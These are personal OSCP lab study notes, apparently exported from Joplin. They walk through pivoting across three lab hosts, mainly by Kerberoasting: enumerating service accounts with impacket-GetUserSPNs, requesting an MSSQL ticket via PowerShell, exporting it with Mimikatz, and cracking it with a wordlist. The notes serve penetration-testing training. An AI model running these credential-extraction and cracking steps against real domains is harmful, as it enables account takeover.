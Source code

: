OSCP Notes

# Lab Forum

XOR 123 >> 121 >> 122 >> 120

## .123

Basic Enumeration - "go bust this new books place and you will arrive at the second location"

Search for exploits on exploit db - money making parts of exploit to get RCE

Once in .123, lab guide to kerberoasting

<ins>Inside https://www.youtube.com/watch?v=beRDcvBwTBw </ins>

![610cc5e92e63dbc35bb766bb29338a2a.png](:/6b68b84564ad43d088fa48b15c32ebde)

First start off by calling GetUserSPNS (/usr/share/kerberoast/GetUserSPNs.ps1)

> impacket-GetUserSPNs -target-domain &lt;Targetdomain&gt; domain/username:password

![3525335922b08c8e3d89e088cd99e530.png](:/8dd9c9fe50f242d0b9b27c635da123ef)

Found there is a MSSQL database service using the user's username on port 1433

Step 2: Request for a ticket

Usually use Mimikatz; For this tutorial, the guy used Powershell

> Add-Type -AssemblyName System.IdentityModel
> 
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/jefflabapp01.jefflab.local:1433"

![a79dbb030abf75cfc8c0d4c33376e440.png](:/2f2add0c25ac4d3392541d04ee5bd118)

<ins>**Note:**</ins> If the command does not work, and the error is saying the generation of the Kerberos credentials was unsuccessful, revert the VM

Step 3: Dump the ticket out using Mimikatz

> kerberos::list /export

![91ab82259b7eef73eca50ac6095a2f97.png](:/50f45f893de24074a86b00a53b896cff)

Step 4: Crack the ticket

> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;

![d9545efb70035cdce440ba8236697ffc.png](:/3e2879fa726e4deeb8ed72c03d2905c7)

<ins>Continuing guide</ins>

"If you have the name, key and the location of nearby place, you can simply login."

## .121

Use mimikatz_trunk.zip tools, follow the general enumeration and you will have keys to box 3. Use them and you are in

### .122

Similar to what is used earlier

![442e385dab2954660beda4519356bd3b.png](:/a85de7a1e17b4eaa9cf1dde2d1fff6fe)

https://attack.stealthbits.com/cracking-kerberos-tgs-tickets-using-kerberoasting

![939f3fc6e9f44e465e1cc4f95231ff34.png](:/1decb397403146cab3bf90dc791aa855)

![369e55f522a69d26107e4b43f7ac2625.png](:/3c2a4f2f36c64badb80e0f77ed2ab957)

![f5ab433a5acf828e31e2082c0c43d7c7.png](:/a5f3e03a98754d0a804bb11b1981e331)

![a1db06a1426b05050a641cb38b7ada53.png](:/df0938592d4f485a8ea2f95ce137804d)

id: e96883416a4041dda72e97aa2b6a8f05
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-02T15:39:11.179Z
updated_time: 2022-02-03T02:40:20.663Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-02T15:39:11.179Z
user_updated_time: 2022-02-03T02:40:20.663Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1